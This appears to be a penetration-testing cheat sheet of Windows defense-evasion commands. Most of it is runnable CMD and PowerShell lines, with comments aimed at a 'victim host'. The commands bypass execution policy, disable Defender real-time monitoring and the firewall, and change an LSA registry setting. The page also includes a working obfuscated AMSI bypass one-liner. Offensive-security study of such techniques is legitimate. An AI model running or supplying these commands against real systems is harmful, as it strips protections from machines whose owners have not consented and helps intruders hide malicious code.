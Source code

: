 ```cmd
# Check if Windows Defender is running (from CMD.exe). 
sc query windefend
```

#### Powershell
[See powershell](powershell.md).

**Policies and antivirus**

```powershell
# Lists available modules loaded for use.
Get-Module	

#  print the execution policy settings for each scope on a host.
Get-ExecutionPolicy -List	

#This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.
Set-ExecutionPolicy Bypass -Scope Process	
```

 [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) is Microsoft's application whitelisting solution and gives system administrators control over which applications and files users can run.

```powershell
# Enumerate AppLocker policies 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# If we find that a file cannot be run from a location, maybe we can try to run it from another location.

# Quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
$ExecutionContext.SessionState.LanguageMode

# Check current execution policy. If the answer is
# - "Restricted": Ps scripts cannot run.
# - "RemoteSigned": Downloaded scripts will require the script to be signed by a trusted publisher.
Get-Execution-Policy

# Bypass execution policy
powershell -ep bypass

# Get the current Defender status.
Get-MpComputerStatus

# Deactivate antivirus from powershell session (if user has rights to do so)
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable firewall
netsh advfirewall set allprofiles state off

# Bypass AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Add a registry
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
